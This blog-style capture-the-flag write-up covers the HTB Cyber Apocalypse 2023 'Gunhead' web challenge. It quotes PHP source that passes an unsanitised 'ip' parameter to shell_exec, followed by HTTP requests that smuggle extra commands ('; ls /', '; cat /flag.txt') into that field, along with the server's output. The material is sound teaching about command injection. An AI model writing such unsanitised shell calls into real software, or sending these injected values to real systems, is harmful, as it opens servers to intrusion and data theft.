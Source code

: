 ```yaml
---
title: "[web] Gunhead"
date: 2023-03-24T22:00:00+08:00
summary: HTB Cyber apocalypse 2023 - system calls
draft: false
tags: [ "ctf", "web" ]
---
```

This challenge exposes a web site, with a terminal that allows user to send some commands to monitor and control robots.

![terminal](img/terminal.png)

The website is a php application, with a route to handle ping to the robot (source code was provided)

```php
$router = new Router();
$router->new('GET', '/', 'ReconController@index');
$router->new('POST', '/api/ping', 'ReconController@ping');
```

From the prompt.terminal, we see that the ping command takes a paramter, that sounds interesting.

```php
    public function ping($router)
    {
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']);

        return $router->jsonify(['output' => $pingResult->getOutput()]);
    }
```

A parameter from the body, `ip`, is gicen to a ReconModel, looking at the ReconModel:

```php
<?php
#[AllowDynamicProperties]

class ReconModel
{   
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}

```

This paramter is passed to a system call, and is not sanitized, let's try to run some commands through it:

```bash
» http http://144.126.196.198:31352/api/ping ip="127.0.0.1; ls /"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Type: application/json; charset=utf-8
Date: Fri, 24 Mar 2023 14:40:15 GMT
Server: nginx
Transfer-Encoding: chunked
X-Powered-By: PHP/8.0.25

{
    "output": "PING 127.0.0.1 (127.0.0.1): 56 data bytes\nbin\ndev\netc\nflag.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\nwww\n"
}
» http http://144.126.196.198:31352/api/ping ip="127.0.0.1; cat /flag.txt"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Type: application/json; charset=utf-8
Date: Fri, 24 Mar 2023 14:42:18 GMT
Server: nginx
Transfer-Encoding: chunked
X-Powered-By: PHP/8.0.25

{
    "output": "PING 127.0.0.1 (127.0.0.1): 56 data bytes\nHTB{4lw4y5_54n1t1z3_u53r_1nput!!!}"
}
```

And so we get the flag.
